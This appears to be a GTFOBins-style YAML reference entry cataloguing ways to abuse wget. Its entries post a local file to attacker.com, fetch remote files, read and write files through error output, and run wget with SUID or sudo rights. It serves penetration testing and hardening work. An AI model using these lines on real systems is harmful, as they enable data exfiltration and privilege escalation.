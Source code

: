 functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        wget --post-file=$LFILE $URL
  file-read:
    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
      code: |
        LFILE=file_to_read
        wget -i $LFILE
  file-write:
    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        wget -i $TF -o $LFILE
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        wget $URL -O $LFILE
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./wget $URL -O $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo wget $URL -O $LFILE
---
